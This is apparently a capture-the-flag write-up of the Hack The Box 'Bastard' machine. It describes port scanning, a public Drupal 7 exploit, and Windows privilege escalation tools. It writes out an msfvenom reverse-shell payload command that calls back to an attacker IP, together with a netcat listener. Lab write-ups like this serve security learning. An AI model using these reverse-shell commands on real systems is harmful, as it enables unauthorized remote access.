 ```yaml
---
title: "Bastard"
date: 2023-08-10T11:30:03+00:00
tags: ["Drupal v7","windows","sherlock.ps1"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Bastard.png"
comments: false
description: "This is a friendly Windows machine that has a web page vulnerable due to Drupal v7."
---
```


## Room Information

- Room name: Bastard
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Bastard

![Untitled](/HTB/Bastard.png)

## Tools Used

- Nmap
- searchsploit
- sherlock.ps1
- multiple exploits ...

## Port Scanning

Other room, other port scan.

![Untitled](/HTB/nmap-bastard.png)

I found 3 open ports, 135(msrpc), 80(web), 49154(msrpc). Let's focus on the website ...

## Enumeration

On the port scan I saw that there's a file called `robots.txt` and The first thing I searched was just this
and for surprise this file content's some routes that I can put in a file and scan with `wfuzz or gobuster`,
but this results didn't tell me anything relevant. Since I saw a Drupal version 7 and I search it on searchsploit ...

![Untitled](/HTB/drupal-bastard.png)

Then I googled it and find a exploit in python that seems to work ...

![Untitled](/HTB/remote-bastard.png)


## Exploiting

Now I had remote control of the machine as user guest. So next I did was create a reverse shell with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f exe > reverse.exe` and listening with `nc -nlvp 443`, next the the machine was pawned ...

![Untitled](/HTB/in-bastard.png)

## Escalating Privileges

We are in now inside, with a user guest.

Next as always in a windows machine I did a `systeminfo` and searched with windows-vuln-suggester and Sherlock.ps1 the posibles vulnerabilities and found one called JuicyPotato ...

The full ecalating is [here](https://brsalcedom.github.io/Bastard-Writeup-HackTheBox/) better.

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about Durpal and windows.
    
- Were there any novel tools or techniques employed?
    
    The use of Sherlock.ps1.
